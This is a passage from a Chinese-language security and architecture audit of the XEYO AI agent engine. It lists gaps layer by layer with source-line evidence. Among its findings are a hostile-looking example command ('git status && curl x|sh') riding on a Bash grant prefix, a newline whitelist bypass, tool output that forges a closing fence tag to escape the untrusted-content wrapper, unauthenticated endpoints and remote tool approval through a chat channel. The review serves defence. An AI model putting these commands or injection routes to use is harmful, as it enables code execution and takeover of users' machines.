








# XEYO Agent 七层架构审计

> 审计日期：2026-09-04（第一轮 22:29 / 第二轮 22:45 补遗）｜ 对象：`python/` 引擎源码 + 壳层接缝（gui/cli-ts 二轮补读）
> 审计标准：决策层(推理循环/规划分解/反思验证) · 认知层(记忆存取忘/技能) · 能力层(工具注册/网关/动态面) · 控制层(调度执行/优先级/并发/主副) · 容错层(回溯/补偿/恢复) · 安全层(裁决/沙箱/审计) · 装配层(上下文装配/窗口管理)
> 方法：按层并行精读 `.py` 源码 + json 配置，证据格式 `文件.py:行号`。按项目要求**未读** `docs/` 与任何 `*.md`。含 `shadow` 字样的旁路文件仅判断在/离线，不深读。
> **第二轮补读范围**：rewind v2/v3 悬案定论、server 层（路由门禁/合成轮/SSE）、model 层（流解析/错误分类）、channels 外部消息攻击面、engine 装配细节与窗口管理实锤、安全层细节（bash_policy/redact/ask_store）、GUI/CLI/Tauri 壳层接缝。关键新论断均经 Grep/直读复核。
> **第三轮补读范围**：tools 具体实现（glob/grep/read/路由/spill/web）、memory 剩余细节（蒸馏算法/journal/开关矩阵）、codeindex、usage 账本、评测基础设施（evals/simulator/证据门）、python/cli 三模式、持久化边角（record_transcript/rwlock/xml_tool_call）。

---

## 一、执行摘要（TL;DR）

XEYO 不是"缺设计的草稿"，而是**大量设计已实现、但若干设计未接线、若干不变量被旁路、信任链未闭合**的工程体。七层里做得最扎实的是**装配层**（环境声道/稳定前缀/投影-持久化分离）与**安全层的裁决子层**（三态单向性/指纹 v2/子代理隔离）；最薄的是**决策层的反思验证**与**控制层的真调度**。按用户给的标准逐条对照后，最值得优先处理的问题按危险度排序：

| # | 缺口 | 所在层 | 一句话 |
|---|------|--------|--------|
| 1 | **反思/验证闭环缺失**，规划被动、只执行不判定 | 决策层 | 无"结果对不对/目标达没达成"的显式回路，全依赖模型自觉 |
| 2 | **真调度未接线**：DAG scheduler 是死代码，多 agent 靠协程涌现并发 | 控制层 | 无优先级/抢占/全局配额/墙钟超时，上限散落 5 处、语义不一 |
| 3 | **沙箱"纸面化"** + Bash grant 前缀注入 | 安全层 | 命令在宿主全权 subprocess 跑（**五轮修正**：Windows Job Object 内存限额 512MiB+整树终止真实存在，属"资源护栏"；文件/网络/CPU/进程数隔离仍缺）；`git status && curl x|sh` 能吃到 `git status` 授权 |
| 4 | **补偿链缺口**：子 agent WriteStore 写入不进 rewind | 容错层 | 回滚对多 agent 写入不可见；`incomplete_tool_uses` 只写不读 |
| 5 | **MCP 双路径 + 冻结红线被 `list_changed` 触碰** | 能力层 | `mcp__*` 直挂与 Mcp 网关并存；全代替换会清 `_schemas_cache` |
| 6 | **slash 与工具体系双真相** | 能力层 | 能力重叠、权限/审计分叉 |
| 7 | **T_now 登记硬顶仅测试执法**；token 预算非一等公民 | 装配层 | 运行时不校验登记数；`max_tokens` 默认 None |
| 8 | **审计不可防内鬼/无告警**，默认 `risk` 非默认拒绝 | 安全层 | JSONL 无签名、query 无鉴权、denied 只落盘不响应 |
| 9 | **记忆无语义检索、无自动召回**；技能无经验习得回路 | 认知层 | 检索纯词法且靠模型主动调工具；skill 只读 |
| 10 | **锁粒度粗 + 关键状态全内存** | 控制层/容错层 | 整工作区单 owner；inbox/settlement/jobs 重启即失 |

**第二轮补遗新增（高危在前）**：

| # | 缺口 | 所在面 | 一句话 |
|---|------|--------|--------|
| 11 | **server 写删端点未鉴权** | server 层 | `PUT/DELETE /v1/workspace/file`、`POST /v1/workspace`（改全局 cwd）等约 20 端点仅 2 个挂 `require_loopback`；audit/memory 路由同样裸奔 |
| 12 | **HTTP 直写通道绕过引擎三链路** | server×容错×安全 | workspace_fs 直写文件不走权限/rewind/审计任何一条链路 |
| 13 | **channels 无发送者白名单** | channels/安全 | 任意微信用户可触发 agent 并远程 `/allow` 危险工具；出站无脱敏、任意本地文件可外发 |
| 14 | **httpx 流异常不归一** | model 层 | 断流抛 httpx 异常不在捕获/分类集 → 半截消息丢失且不可重试；超时分类同样盲区 |
| 15 | **context_limit 断链 → C2 全哑** | 装配层 | CLI/DeepSeek 路径窗口未知，三个 C2 触发点全部失效，长会话必撑爆 |
| 16 | **fence 不转义闭合标签** | 装配层 | 工具输出可自带 `</tool_output>` 击穿"不可信"围栏 |
| 17 | **bash 换行绕过只读白名单** | 安全层 | `_COMPOSITE_RX` 不含 `\n`，`echo\npython -c ...` 可放行任意脚本 |
| 18 | **回滚进行中无写阻塞** | 容错层×壳层 | restore 后台线程跑数秒~分钟，期间新 turn/其它会话可写同一工作区 |
| 19 | **CLI 权限误触 + 无断流恢复** | 壳层 | 单键 a/y 即放行、无超时提示、流断丢 pending 权限、AbortError 伪装正常结束 |
| 20 | **AskUserQuestion 无审计/actor 自报** | 安全层 | 问/答/取消全不落审计，resolve 无鉴权 |

**第三轮补遗新增**：

| # | 缺口 | 所在面 | 一句话 |
|---|------|--------|--------|
| 21 | **HTTP Bearer = 供应商 key，无服务端凭据** | server/CLI | `Authorization` 直接透传给模型供应商（`deps._extract_bearer`→`chat.py:632`）；`serve --host 0.0.0.0` 即向 LAN 裸奔执行工具 |
| 22 | **DeepSeekModelClient 账本黑洞** | usage/可观测 | `deepseek.py` 全文零 ledger 调用（已核实），该客户端路径的所有请求不进 `events.jsonl` |
| 23 | **record_transcript 无 fsync + 轮转竞态** | 持久化 | `_write_batch` 仅 `flush()`（`:148`）；`record_transcript_sync` 与 writer 线程 rotate/append 竞态 → 崩溃丢会话尾部 |
| 24 | **蒸馏无合并/淘汰** | 认知层 | 每条 candidate 独立成 note、去重仅精确 casefold、失败候选永生 → L4 重复事实堆积 |
| 25 | **DNS 重绑定 TOCTOU** | 能力层(web) | `is_blocked_url` 校验与 httpx 实连两次独立解析，可被重绑定穿透 |

**第四轮收尾新增**：

| # | 缺口 | 所在面 | 一句话 |
|---|------|--------|--------|
| 26 | **裸奔面继续扩大 + 门禁三态混杂** | server | media/usage/audit/memory 端点全裸；usage.py 是开放 SSRF 代理面（`X-Base-Url` 任意）；门禁存在路由级/逐端点/完全没有三种风格 |
| 27 | **Tauri 端口劫持 + 全盘写 command** | 壳层 | `wait_health` 只认 `"200"` 字符串（`lib.rs:580`）；14 个自定义 command 无 ACL 且 fs/git 可写全盘；端口文件可诱导 `taskkill /T /F` 任意进程树 |
| 28 | **提交门与 xfail 机制缺位** | 测试/CI | 无 pre-commit/husky；xfail 全仓 0 处，失败治理靠 deselect 踢出门外；list_changed 破坏冻结无测试锁 |
| 29 | **NotebookEdit 绕过 write_scope** | 能力×安全 | Write/Edit 有"无 store 且 scope 激活即硬拒"兜底（`file_edit_tool.py:152-154`），NotebookEdit 零此检查（已核实）——多 agent 写隔离唯一旁路 |

**第五轮收尾新增**：

| # | 缺口 | 所在面 | 一句话 |
|---|------|--------|--------|
| 30 | **插件信任被 manifest 自声明劫持** | extension 供应链 | `_plugin_active` 用 manifest 的 `source_type`（攻击者可控字段）判定是否走信任检查（`loader.py:92`，已核实）——GitHub 插件写 `"local"` 即免批；且 `name=".."` 可逃逸安装目录、信任键不绑定内容哈希 |
| 31 | **后台 bash 作业绕过 rewind/审计且零超时** | 容错×控制 | 晋升 job 与 session abort 解绑（`runner.py:265-271`）、无超时永跑、产物直写工作区不进 rewind |
| 32 | **预览 iframe 注入通道** | 壳层 | 模型可发 `data:text/html` 直达 `allow-same-origin` iframe（`BrowserPreviewPanel.tsx:344` + frame-src 全开）；`shell:allow-open` 无 scope 未收口 |

**第六轮查漏新增**：

| # | 缺口 | 所在面 | 一句话 |
|---|------|--------|--------|
| 33 | **evals 结果跨模型混染 + 反作弊未接线** | 评测设施 | items.jsonl 汇总按 id 合并历史所有行、无 model 字段过滤（`bfcl_lite.py:393-397`，已核实）——换模型重跑分数即混合成绩；blind_audit/pollution_gate 零调用点 |
| 34 | **todo 恢复/渲染正确性** | 认知×壳层 | `restore.py:95-99` 旧 result 可压过被打断的最新 input（语义含混）；GUI 侧 error 的 tool_result 回退渲染成"已成功"的 todo 快照（`todos.ts:199-217`） |
| 35 | **ilink QR 容量天花板** | channels | 自研 stdlib QR 仅支持 version 1-6（ECC-M ≈106 字节），登录 URL 超 `_pick_version` 直接 ValueError——登录功能级失败风险（`qr_png.py:87-91`） |

**一句话总评**：这套引擎的"结构正确性"很高——状态机严谨、单向不可逆、投影持久分离、内容寻址快照、fail-safe 的倾向到处可见；短板集中在**"验证与自省"（决策）、"调度与配额"（控制）、"隔离与信任"（安全）、"覆盖面"（容错）** 四件事上，且多为"没有把已写好的机制接到生产路径"，修复优先级明确。第二轮补读后，最高危项进一步下沉到 **server 路由门禁与外部消息面（§5.2/§5.4）**——引擎内部辛苦维护的不变量，正被少数未设防的旁路通道（workspace_fs 直写、未鉴权路由、无白名单的微信入口）抵消。第三轮补读确认了两个正面结论：**"数据准入"纪律真实存在**（评测设施+证据门是全仓工程成熟度最高的部分之一，§6.3）；同时暴露最后一批高危项——**server 无服务端凭据（Bearer 即供应商 key）**、DeepSeek 账本黑洞、转录持久化无 fsync（§6.4）。至此七层 + 外围（server/model/channels/shell/tools/评测/CLI）已全部覆盖。

---

## 二、全局视图（Mermaid）



主线一句话：**每个用户 submit 由 `query_loop` 驱动**（决策层）→ 每次 LLM 调用前经**装配层**把"稳定 system + 投影历史 + 环境声道易变块 + 冻结 tools schema"拼好 → 模型吐 tool_use 走 **ToolRegistry.run 单一裁决点**（能力层×安全层）→ 文件写落入 **rewind 快照/逆操作**（容错层）→ 主循环回环；memory/技能/subagent 都是"工具"，调度与并发多数是**涌现**而非显式（控制层最弱的一环）。

---

## 三、逐层审计

### 3.1 决策层：推理循环 + 规划/任务分解 + 反思验证

**我的理解**：XEYO 的决策层是"**单 agent 主循环 + 外部被动状态**"的形态。推理循环非常标准且工程化：`query_loop.py` 一个 1895 行的异步 while 循环每轮做"投影 → T_now 注入 → model.stream → 解析 tool_use → 分区并发执行工具 → 结果落盘"（`query_loop.py:757/870/925/1051/1637/1871`），无 tool_use 即 `FinalEvent`（`:1452`）。外层 `turn_runner` 用"一次 submit = 一个 DetachedTurn"的生命周期把 SSE 订阅、崩溃快照与主循环解耦（`turn_runner.py:58`）；进程内权威任务状态 `SessionTaskState`（`task_state.py:26`）贯穿查询引擎。**规划**在这里只是 `plan.py` 的进程内人工审批暂存（ExitPlanMode → `POST /v1/plan/{turn_id}/approve`，`plan.py:1-71`），`goal_state.Goal` 是带 5 态合法迁移表和 CAS 修订的持久化状态机，但**只是被动候选**：`pending_complete` 由 TodoWrite 全 done / 多 agent 全成功等信号*派生*（`goal_state.py:147`），引擎只 `mark_candidate`（`query_engine.py:482`），真正轮次推进在 server 层 goal_round_driver。



**优点**
- 主循环可恢复性强：abort（`abort.py:9`）+ budget（`budget.py:19-25`，max_turns=256 / max_tool_calling=64）双闸门，`_repair_unpaired_tool_calls:181` 修复配对、`_persist_interrupted_anchor:274` 写中断锚，崩溃可续跑。
- 规划状态持久化扎实：Goal 5 态合法表 + CAS 修订（`GoalConflict`）+ `os.replace` 原子写；armed 只在内存、重启不自动续跑（`goal_state.py:11`），防止"恢复即跑飞"。
- 防循环多层叠加：repeat_guard + ZeroHitTracker（`repeat_guard.py:313`）+ budget 硬上限 + reasoning 尾锚（`query_loop.py:1180`），且有 grace 窗口防单轮爆发误触收尾（`budget.py:77-80`）。
- 依赖方向干净：`turn_runner` 经 `set_turn_settlement_listener` 反向注入（`:39/354`），engine 不 import server。

**设计不足（按重要性）**
1. **无反思/验证闭环（最重要）**。engine 内 grep `reflect/verify/复盘/反思` 只命中"过程旁白"正则与存储校验。`process_narration.py` 是给 UI 的过程叙述润色、LLM 调用前剥离（`process_narration.py:1/61`）；`previous_reasoning_tail` 是防弱模型重复思考、默认关；`resume_directive` 是续跑指令的 ContextVar（`resume_directive.py:16`），**都不是**"对上一轮动作-结果的正确性判定"。理想闭环（执行→对照目标→校验→重规划）完全缺失，等价于把"是否做对了"交给模型自觉。→ 建议：在 turn 边界（多工具批次后）插入轻量自检：对照 `Goal.text`/todo 与最近工具结果，失败即注入"重规划"或触发 plan。
2. **规划是被动标志位而非自动闭环**。`Goal.pending_complete` 是软信号（`goal_state.py:78`），"完结由外层决定"（`:5`）；无 Plan→Act→Check→Adjust 结构，引擎从不自己收口或降级。多轮目标型任务的验收/失败降级没有归属。
3. **重复防护只建议不拦截**。RepeatCallGuard 注释明言"只提醒、永不拒执行"（`repeat_guard.py:7/216`）；对"动作不同但语义等价"的原地打转无检测，收敛完全靠 budget 硬上限兜底。
4. **术语双关 + 双份状态机**：内层预算 `Turn`=模型轮（`budget.py:3`）与外层 `turn_runner.Turn`=submit 生命周期同名异义；`SessionTaskState` 与 `TurnSnapshot` 两套 status 枚举并存、语义重叠——跨层契约靠注释约定而非类型/接口约束。
5. **单函数巨石**：query_loop 把投影/early/权限/plan/ask/abort 全混在一个 1895 行函数，规划与执行强耦合，决策闭环无法单测。

---

### 3.2 认知层：记忆（存取忘）+ 技能（程序性记忆）

**我的理解**：XEYO 的记忆是**分层 + 文件为真相源 + 后台蒸馏**的架构，等级划分散见于各模块 docstring：L1 指令记忆（XEYO.md 文件族，`instruction.py:1`）→ L3 工作记忆（WorkingSnapshot sidecar，压缩游标，`working.py:1`）→ L3/L5b 会话语义笔记 session.md（Goal/Completed/Facts，跨会话可检索，`session_md.py:1`）→ L4 长期记忆 memdir `topics/*.md`+`MEMORY.md`（`governance.py:1`）→ L5 运行时投影（C0/C1/C2 压缩，`runtime.py`）→ L6 休眠重塑（nightshift）。写入触发有三条：模型显式调 Memory 工具（`memory_tool._execute_write:433`）、主会话"请记住"/MEMORY_CANDIDATE 收割、子 agent 回传候选；写前有 schema 门禁（`governance.parse_and_validate:88`）、冲突消解（`resolve_conflict:213` keep_old/supersede/coexist）、去重合并；晋升靠 nightshift 蒸馏（candidates.jsonl → `can_promote:146` 置信度闸门 → 原子晋升）；遗忘有显式删除墓碑（`forget:236`，`may_resurrect` 恒 False 防复活）。检索是**纯词法**（NFKC 归一 + CJK bigram/trigram，`search.py:116/120`），打分 + 查询感知重排（`score_note:68`/`query_reweight_score:107`），命中 `touch` 更新 last_used_at。memindex 是 sqlite **纯派生索引**（`memindex.py:1`，文件丢可重建），签名增量同步。



**优点**
- 分层清晰、source-of-truth 明确（memdir 文件 > sqlite 派生），索引可丢库重建。
- 写链路闭环完整：schema 门禁 → 冲突消解 → 去重合并 → 墓碑防复活；多 agent 记忆边界隔离（`agent_scope:81` 子 agent 禁写 memdir，只回传候选）。
- 成本治理成熟：窗口自适应 C2 压缩压门（`runtime._c2_pressure_ratio:1649`）、KV 前缀冻结、确定性摘要 + 逃生舱 + 还原。
- 检索纯词法 → 零模型调用、确定性、可审计；跨会话/跨任务归档检索已通（`search_session_notes:373`/`search_rollout_summaries:480`）。

**设计不足**
1. **技能无"从经验习得/更新"回路（程序性记忆不能自维护）**：`skill_tool`/`skill_loader` 是运行时发现+按需读正文（`skill_tool.load_skill_body:64`），**无 write 路径**；唯一的"习得"是 `instruction_maintain.refresh_instruction_proposals:282` 把候选生成为**声明式** XEYO.md 提案且需人工 `/rule`。经验→技能（做对了 3 次→固化成可复用程序）完全缺失。而 AGENTS.md 里的新功能准入/事故模板等规则正是"程序性记忆"的雏形，但没有自动化。
2. **检索无语义召回、无自动装配**：无向量/embedding，跨语种（英文问中文答）明确放弃（`search.py` docstring）；长库易漏召。更关键：装配层 `_append_memory_index:1232` 只在 T_now 注入**一行只读指针**（"仅在用户提记忆时调 Memory 工具"），相关记忆**从不自动召回进上下文**，弱模型容易忽略 → "能存不能稳找"。
3. **遗忘无时间衰减/冷门沉底**：只有"删/过期"，`confidence` 是静态的，无衰减逻辑；`last_used_at`（`search:254`）只记不用来降权 → 长期记忆只增不沉。
4. **真实"观察→候选"抽取粗糙**：`observe.py` 实为 KV 缓存校准（命名误导）；主会话候选靠 `subagent_memory` 正则抽"请记住"类文本（`subagent_memory.harvest_main_session_memories:232`），无结构化事实抽取；`_promote_max_per_run=8` 之类限频靠 env 常量，无在线学习率；candidates 无积压上限（阈值 20）。
5. **memindex `edges` 因果表建而未用**（`memindex.py:364`）= 死代码；session.md 只在 C2 压缩时 `maybe_update`（`runtime.project_for_model:1578`），会话中期语义易失。

---

### 3.3 能力层：工具系统（注册/网关/动态工具面）

**我的理解**：XEYO 有**一套统一的内置工具注册表 + 一套并行的 MCP 挂载**，外加一套**完全独立的 slash 命令体系**。内置工具经 `catalog.py` 工厂表注册（`catalog.py:187/233`），名对齐单表 `meta.py:53`，启动自检防漂移（`catalog.py:398`）；MCP 工具注册名带 server 哈希钉 `mcp__<server>__<name>__<12hex>`（`mcp_client.py:181`）防跨 server 撞名。执行统一走 `ToolRegistry.run`（`tool_registry.py:295`）→ 内置 `evaluate_policy` 权限门（`:416`），`xml_tool_call.py` 是 GLM 裸 XML 的第二入口协议，但仍产 `ToolUse` 交主循环、**不绕权限**。会话内动态工具面被设计为"**tools 数组会话冻结 + 唯一新增通道 = Mcp 网关工具**"（`mcp_gateway.py:76`，action=list/describe/call/resources/read_resource），网关 `action=call` 经 `resolve_target → manager.resolve_tool` 只在**attach 时定型的已知工具集**内匹配（`mcp_manager.py:409`），身份绑定已知 McpTool 对象、不从 args 取——这层"防伪造"设计是对的。



**优点**
- 单一权限裁决点（registry.run 内 `evaluate_policy`），MCP 默认 outbound_ask 也不改此路径。
- 注册名哈希钉彻底解决跨 server 同名碰撞；`sanitize_schema` 分级降级、超大 schema 转 hidden（`mcp_manager.py:295`）。
- MCP 生命周期故障隔离完善：启动/工具超时分层（30s/300s，`mcp_client.py:59-61`）、指数退避重连（0.5→30s 上限 10）、required server 失败不挡会话、坏 server skip-log。
- reconcile push/pull + digest 幂等设计干净，是能力层最稳的接缝。

**设计不足**
1. **`mcp__` 直挂 + Mcp 网关 = 两条执行路径 + 冻结红线被破**（最危险不变量）：直挂工具走 `registry.run`（有编排/预算 seam），网关 `action=call` 在 registry.run 内直接 `target.execute`（`mcp_gateway.py:171`，仅自带 4KB 裁剪）——同一 MCP 能力两套执行与计量语义；且 `registry.register` 会**清空 `_schemas_cache`**（`tool_registry.py:104`），而 MCP `tools/list_changed` 触发全代替换 `_apply_generation`（`mcp_client.py:1458-1467`）会走到注册 → 与"attach 时定型、会话内 tools 数组冻结"注释（`mcp_manager.py:300`）**直接冲突**，冻结声明与实际行为不一致（触发与否取决于上游 server 是否发该通知，属隐性地雷）。
2. **slash 与工具体系双真相**：`slash/registry.py` 是独立注册表，`dispatch._HANDLERS` 按名直调函数、从不走 `tool_registry.run`；而 `/ls`、`/git`、`/run` 与内置 Glob/Read/Git/Bash 工具**能力重叠、实现分叉**，权限/审计各自一套 → 维护与安全成本翻倍。
3. **工具目录多重副本无单一源**：registry._tools、manager._servers[].tools（`mcp_manager.py:313`）、client._tools（`mcp_client.py:780`）、runtime._tools（`mcp_client.py:1430`）四处状态，易漂移。
4. **动态工具面实际是"声明式"，增量 ≈ 0**：网关只能触及 attach 时已注册/已 hidden 的冻结工具，`list_changed` 后 manager.entry.tools 不刷新 → 网关对新工具 fail-closed；"会话内新增工具"名不副实。

---

### 3.4 控制层：调度/执行（优先级、并发、主副 agent）

**我的理解**：XEYO 控制层真相是——**没有活体调度器**。存在一个事件驱动 DAG 调度器 `Scheduler.run`（`scheduler.py:357`，Task 拓扑序 + scope 冲突串行 + `prepare_for_resume:851`），但 `run_task_batch` 只在 scheduler.py 与 tests 出现，**生产 HTTP/主循环路径未接线**（已 grep 核实，server/ 无调用）。活路径的多 agent 是"模型在同轮并发调 Agent 工具 → `run_tools_partitioned`（`orchestration.py:247/304`）`asyncio.gather` 协程并发跑多个 `run_subagent`→内嵌 query_loop"。并发上限散落五处：`_max_concurrency=10`（orchestration）、`_agent_slots=threading.Semaphore(8)` **模块级全局跨会话共享**（agent_tool.py:34）、`Scheduler._max_concurrency=10`（未用）、`MAX_CONCURRENT_JOBS_PER_OWNER=10`（job_registry）、`MAX_DEPTH=1` 递归防火墙（agent_tool.py:32）。主副关系有清晰的安全设计：子 agent 工具面按 scope 裁剪（`scheduler.py:191`，空 scope→只读工人）、`FORBIDDEN_SUB_TOOLS` 永不下发（`subagent_context.py:49`）、`write_scope_cm` 硬门禁（`subagent_runner.py:200`）、结果包成 ToolResult 回流、异常记 `agent_settlement` 下轮注入。

```mermaid
flowchart TB
    subgraph 活路径(生产)
        QL[主循环] -->|Agent 工具| AGT[AgentTool]
        AGT -->|asyncio.gather 并发| SUBR[run_subagent<br/>内嵌 query_loop]
        SUBR -->|ToolResult 回流| QL
        AGT --> SLOTS[agent_slots 全局信号量8]
    end
    subgraph 死路径(已实现未接线)
        SCH[Scheduler DAG] --> BT[run_task_batch]
        BT --> PREP[prepare_for_resume]
    end
    subgraph 资源与隔离
        POOL[SessionPool busy租约/300s回收]
        WL[WorkspaceLock 整工作区单owner]
        JOB[JobRegistry 每session后台/环形输出]
        PRES[session_presence 仅提醒不阻断]
    end
```

**优点**
- 子 agent 安全设计优秀：工具面裁剪、空 scope 只读、写门禁、递归深度防火墙、follow-up inbox 上限 3（park 不 inject）。
